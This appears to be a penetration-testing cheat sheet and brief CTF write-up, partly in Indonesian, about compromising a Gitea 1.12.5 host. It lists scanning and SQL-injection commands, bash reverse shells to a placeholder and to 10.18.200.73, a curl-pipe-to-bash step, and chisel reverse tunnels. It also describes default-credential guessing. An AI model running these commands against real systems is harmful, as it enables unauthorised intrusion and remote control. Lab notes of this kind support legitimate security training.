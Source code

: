 Command
- nmap -sC -sV -oN enum.nmap -p- -T4 --min-rate=1000 -v  (nmapx)
- dirb http://10.1.2.152 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o diretory.dirb (dirbx)
- sqlmap -r inject --dbs --level 4 --risk 3 --threads 10 --tamper=space2comment,between,randomcase (sqlmapx)

- nc -lvnp 9001
- python -c 'import pty;pty.spawn("/bin/bash")';
- bash -c 'bash -i >& /dev/tcp/CHANGE-THIS/9001 0>&1'
- sudo python3 -m http.server 80
- curl 127.0.0.1/shell.sh | bash
- ps -efa --forest

for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
for i in {1.255}; do (ping -c 1 10.1.2.${i} | grep "bytes from"&); done

for i in $(seq 254); do ping 10.1.2.${i} -c1 -W1 & done | grep from
chisel server --socks5 --reverse
./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:8000:&lt;Internal IP&gt;:80

./chisel client --fingerprint &lt;Fingerprint&gt; &lt;Attacker IP&gt;:8080 R:socks

Payload

```
test
asda
```

Set alias

- nmap
- buka port 3000 gitea
- coba guessing password dengan username yang ada
username: askira
password: askira
- mencari kerentanan pada layanan gitea versi 1.12.5
- menggunakan module metasploit untuk memasukan reverse shell
    - listening port 9001 pada local machine
    nc -lvnp 9001
    - memasukan code reverse shell pada target machine
    bash -c 'bash -i >& /dev/tcp/10.18.200.73/9001 0>&1'
    - mengambil flag user.txt
    ![Alt text](images/user.jpg)
